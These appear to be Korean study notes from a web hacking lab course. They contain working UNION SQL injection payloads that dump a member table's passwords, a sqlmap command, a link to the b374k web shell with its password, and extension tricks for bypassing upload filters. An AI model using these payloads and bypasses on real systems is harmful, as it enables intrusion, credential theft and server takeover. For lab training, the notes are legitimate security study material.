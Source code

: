 ` ' order by 7# `

` 0'union select 1,2,3,4,5,6,7# `
* 우편번호2, 주소 3456

` 0'union select 1,@@version,user(),4,database(),6,7# `

` 0' union select 1,table_schema,3,table_name,5,6,7 from information_schema.tables# `

` 0' union select 1,table_schema,3,table_name,5,6,7 from information_schema.tables where table_schema='gmshop'# `

` 0' union select 1,table_name,3,column_name,5,6,7 from information_schema.columns where table_schema='gmshop' and table_name='member'# `

` 0' union select 1,name,userid,pwd,5,6,7 from member # `

## 우편번호 인젝션 (SQLMAP)

* http://192.168.113.130/gm/search_post.php

` sudo sqlmap -u "http://192.168.113.130/gm/search_post.php" --data "cnt=&po=&zipcode=a" --dbs `

## 파일 업로드 취약점 조건
1. 업로드 할 때 파일 확장자에 대해 체크가 안 되어 있을 때
2. 업로드 한 웹쉘의 웹 절대 경로가 노출이 되어 있을 때
3. 업로드 된 웹쉘이 스크립트 형태로 동작할 때

## 파일 업로드 취약점 실습
* [웹쉘 다운로드 링크](https://github.com/tennc/webshell/blob/master/php/b374k/b374k-2.8.php)
    * b374k 비밀번호 -> p374k
* [beebug-unrestricted_file_upload](http://192.168.113.130/bWAPP/unrestricted_file_upload.php)
    * low, medium

* gmshop에 자료실에 php 웹쉘 올리기
    1. 버퍼스위트로 자바스크립트 php 검증 로직 삭제
    2. 버퍼스위트로 확장자를 php -> png로 바꾸기 
* 블랙 리스트 방식의 서버사이드에서의 확장자 체크 뚫는 법
    1. `php` -> ` php3, php5, phtml, PHP, pHp ` 로 변경
    2. `asp` -> ` aspx. asa, cer ` 로 변경
    3. `jsp` -> ` JsP, js%70 ` 로 변경
## 파일 업로드 취약점 시스템 침투 하는 이유
1. 침투한 웹 서비스의 소스코드를 삭제해서 웹 서비스 장애 -> [해킹당한 사이트 모음 링크](https://www.zone-h.org/?hz=1)
2. 침투한 웹 서비스에 index.html 변조해서 악성 스크립트 삽입 -> 악성코드 배포 (랜섬웨어)
3. 웹 서버를 통해 데이터베이스의 정보를 유출 -> 데이터베이스 연결 정보를 찾아내야 함 
4. 침투한 웹 서버를 통해 내부 시스템 침투하기 위한 목적 -> APT 공격

### 데이터베이스 연결 정보 찾기 실습
* 데이터베이스 연결 정보 -> admin-setting.php
* 보통 `admin` `setting` `conf`라는 키워드에 많이 있음
* login 정보에 include 되어 있는 경우가 많다

